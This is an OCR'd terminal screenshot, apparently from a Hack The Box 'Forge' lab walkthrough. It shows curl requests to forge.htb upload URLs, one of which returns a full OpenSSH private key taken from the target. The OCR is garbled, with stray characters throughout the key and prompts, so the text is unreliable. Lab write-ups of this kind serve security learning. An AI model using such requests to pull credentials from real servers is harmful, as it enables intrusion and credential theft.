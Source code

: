 ![](Maszyny/Linux/Medium/Forge/Pasted%20image%2020210920172735.png)

-(kali kali)-[-/htb/forge]
curl http://forge.htb/uploads/spt8Gf7bjV4YPfulckl
be16212632110b8cf52778cc09d29040
-(kali kali)-[~/htb/forge]
[s
curl http://forge.htb/uploads/rUWIUUW9GzMNMU7pNHUV
-BEGIN OPENSSH PRIVATE KEY-
b3BlbnNzacirzXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABLWAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZI0+Qywfgnftqo5as+orH/w1brG6i6B7Tv2Pd209NixomtHR3
rnxHouv4/11p02jPf5GbjVHASMwJDXmDNjaqzfO9OYC7K7hr7FV6xlUwThucko@hIOVUE
7Jh1d+jfpDYYXqON5r6DZODI5WMWLkl 9n5rbtFko3xa LewkHYTE2YY3uv Vppxsncv]/6uk
r6p7bzcRygYrTyEWg5goRfsqhC3Ha00xXiXgGzTWyXtf204zmNhstfdgWwBpEfbgFgZ3D
WJ+u2z/vobpoIIKEfsgX+CWXQUt8RJANKOTUJGAMENRL9nJxomYHlySQz2xL4UYXXzXr8G
mL6X®+nkrRglanFdCoykLTGsiGs1+bc6jJiD1ESiebAS/ZLATTsaH461E/vv9X0J05qEXR
GUZ+aplzDG4wWisNuerDy9PTGxB6kR5pGbCaEWORPLVID9EqnWh279mXu0b4zYhEg+nyD
K6ui/nrmrYUOadgCKXR7zlEm3mg j4hu4cFash/KLAAAFgK9tvD2vbbw9AAAAB3NzaClyc2
EAAAGBAJ2SDVkMsH4337aqowrPqKx1v8NVm6xuouge079j3UNPTYSTprR0d658R6Lr+P5d
attp423+Rm41RwLDMCQ15gzY2qmXzvTmAuyu4a+xVeszVFK 4 CHCqNISDlbhoyYdxfo3602
GF6jjea+g8zgyOVjmCypfZ+a27RZKN8Wi3s JB2ExNMGN7rlaacbJwryf+rpK+qe283ECOG
K08hAFOOYDkX7 KoQtx2qDsV414Bs01sl7x9qOM5jYbLX3YFlgaRH24BYGdwlifrts/17m6
CCChH7IF/NFLØFLEESQJYOE11xgJnZUS/ZycaJmB5ckkM95S+FGF1816/Bpi+19Ppy qoY
JWjRXQtMpCoxrIhrNfm30oyYg9REonmwEv2SWE07Gh+OiBP77/VzidoahFØRTM/mqZcwxu
MFr4kjbnqw8vTOxsQepEea RmwmhFqETY1SG/Rkplodu/z17tG+M2IRIPp8gyurov565kWF
DmnyAil0e85R3t50I+IbuHBWrB/yPQAAAAMBAAEAAAGALBhHOGJWSZTJYjBwy Pc72KdK9r
rqSalca+DUmOa1cLSsmpLxP+an52hYE7u9flFdtYa4VQznyMgACOHCIWYCTU4QowcmWQU
XW9bMPOLE 7 Mm66DjtmornrosF9vUgc92VvQGB jcXjzqPL/POHwdmD/hkAYK6YGfb3Ftkh
2AV6ZzQaZ8pOWQEIQNONZEPPAnshEfYcwjakm3rPkr RAh3RBY5m6vD90bMB/DJelObF98
yv9Kzlb5bDcEgCWKNhL1ZdHWJ;JPApluz6o In+UIEcLvv18h13dhikPeHpjTXMV19878F+
kHdcjpjsnssjhlAIVxFu3N67N853BFnioaWpIIbZxwhYv9077UARa3eU6mikmSmdUm1z/
wDaQv1swk9HwZlXGVDRWCMTFGTGRnyetZbgA9vVKhnutGqq@skZxoP1ju1ANVaavzirMeu
DXfkpfN2GKOA/ulod3LYPZx3QcT8QafdbWAJØMHNFEKVbqDvtn8Ug4/yfL CueQdl CBAAAA
WFOM1lMgd3jFFiOqgCRI14rDTpa7wzn5QGºHlWeZuqjFMqtLQcDlhmE1VDA7aQE6fyLYbM
OsSeyvkPIKbCkCL5YQaV63YQBWRv9npaTs9ISxvr115n26hPF8DPamPbnAENUBmWd5iquf
FDb5B7L+5 Jai/JzYg@kbggvUd45JsVeaQrBx32Vkw8wKDD663 agTMxSqRM/wT3qLklzmvg
NqD51Afvs/NomELazbbr TowVBZIAX2ZykdhaNwHlCbsqerAAAAMEAZRnXpuHQBQI3vFkC
9vCV+ZfL9yfI2gz9oWrk9NWOP46zuzRCmce4Lb8ia2tLQNbG9cBTE TARGBYOQOG IWyØP
fikLIICAMOQSENHACPWXVS LL5yUydSSVZTrUnM7Uc9rLh7XDomdU7j/21NECCVSI/q1vz
dEg5oFrreGIZysTBykyizOmFGETJv5wBEV5JDYIØnf0+8xoHbwaQ2if9GLXLBFe2f@Bmxr
W/y1sxXy8nrltMVzVfCPO2sbkBV9JZAAAAWQDErJZn6A+TI+5g2LkofWK1BA0X79ccXEL
WS5q+66leUPOKZrDdows 77QD+86dDjoq4fMRL14yPfwosxEkg90rvor3Z9galjPCSFNAL
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgN53/g1/Fpd52DDziDOAIFORntwkuiqs1g63hF3vadCAV3KIVLEBONXH2
shlLupso7WOSOAAAAKDXNlckBmb3JnZQE=
END OPENSSH PRIVATE KEY
